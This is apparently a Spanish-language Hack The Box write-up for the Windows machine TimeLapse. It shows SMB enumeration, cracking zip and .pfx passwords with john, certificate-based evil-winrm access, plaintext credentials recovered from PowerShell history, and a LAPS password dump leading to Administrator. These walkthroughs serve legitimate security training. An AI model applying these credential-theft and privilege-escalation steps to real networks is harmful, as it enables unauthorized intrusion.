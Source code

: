 ```yaml
---
title: TimeLapse hackthebox writeup
author: HackerCloud
date: 2022-08-31 00:00:00 +0800
categories: [Hackthebox, machine, writeup]
tags: [Hackthebox, writeup]
image:
  path: ../../assets/img/commons/timelapse-writeup/Timelapse.png
  width: 800
  height: 500
  alt: Banner TimeLapse
---
```


Empezamos con el escaneo de puertos sobre la máquina

```ruby
Nmap scan report for 10.10.11.152
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
```

Cómo vemos que está el servicio SMB habilitado vamos a empezar a enumerar

```
❯ smbclient -L 10.10.11.152
Enter WORKGROUP\root's password:
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Shares          Disk  
```

Dentro de Shares/Dev/ hay un archivo zip, podemos descargarlo con smbmap con el parámetro --download o con la consola interactiva de smbclient

El zip tiene una contraseña, la podemos crackear con john

`john --wordlist=/usr/share/wordlists/rockyou.txt hashzip`

Al descomprimir el zip se puede ver un archivo .pfx que se puede usar para extraer un certificado y conectarse a la máquina por winrm


```bash
❯ ls
hashzip legacyy_dev_auth.pfx pfxhash winrm_backup.zip
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt pfxhash
thuglegacy    (legacyy_dev_auth.pfx)
```

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
```

Ahora con los siguientes parámetros nos podemos conectar por evil-winrm
```
-c: certificate
-k key
-S: SSL mode
```

```powershell
❯ evil-winrm -S -i 10.10.11.152 -c crt -k key
Enter PEM pass phrase: thuglegacy
PS C:\Users\legacyy\Desktop> type user.txt
********************************
```

Al ejecutar [WinPeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20220605) podemos ver que hay un archivo de historial que podemos leer, en este tipo de archivos podemos encontrar contraseñas

```
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt
```

Efectivamente encontramos una contraseña para el usuario svc_deploy, con esto podríamos conectarnos contra la administración remota de windows ya que el usuario pertenece a `remote management users`

```
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
```

El usuario pertenece al grupo LAPS Readers que nos permite algunas cosas interesantes

Podemos usar crackmapexec, LAPSDumper y otras herramientas para intentar crear una contraseña temporal para el usuario Administrator, en este caso voy a usar LAPSDumper 

```bash
 python3 laps.py -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb
```

Esto nos devuelve directamente el nombre del DC y su contraseña temporal en texto claro

Con eso ya solo queda conectarnos por winrm con ñas credenciales obtenidas, en este caso tenemos que usar el parámetro `-S` para poner el modo SSL ya que el puerto 5986 tiene wsmans en lugar de wsman

```
❯ evil-winrm -S -i 10.10.11.152 -u Administrator -p 'temporal_password'
PS C:\Users\TRX/Desktop> type root.txt
********************************
```

Y con esto terminamos la máquina TimeLapse.
